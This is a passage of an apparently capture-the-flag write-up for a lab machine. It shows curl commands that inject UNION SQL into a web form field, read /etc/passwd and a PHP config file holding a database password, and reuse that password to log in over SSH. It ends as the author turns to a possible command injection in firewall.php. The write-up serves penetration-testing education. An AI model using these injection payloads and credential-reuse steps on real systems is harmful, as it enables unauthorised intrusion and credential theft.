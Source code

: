 - Now, if we check permissions of `mysql`, we have a permission to read files
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select group_concat(user,':', file_priv ) from mysql.user-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
debian-sys-maint:Y,mysql.infoschema:N,mysql.session:N,mysql.sys:N,root:Y,uhc:Y 
```

- Let's enumerate file system
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select load_file('/etc/passwd')-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
root:x:0:0:root:/root:/bin/bash
<SNIP>
uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
```

- No private key in users' home directory
  - But we can check the source code
  - We can go through each file we saw from `gobuster`
  - The most interesting is `config.php`
```
└─$ curl -s -XPOST http://10.10.11.128 --data-urlencode "player=' union select load_file('/var/www/html/config.php')-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

- We can test for password reuse
  - And it works
```
└─$ sshpass -p uhc-11qual-global-pw ssh uhc@10.10.11.128
Warning: Permanently added '10.10.11.128' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Nov  8 21:19:42 2021 from 10.10.14.8
uhc@union:~$ 
```
## User
- Nothing much
  - But analysing `firewall.php` reveals a possible `command injection`
```
uhc@union:/var/www/html$ cat firewall.php 
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
```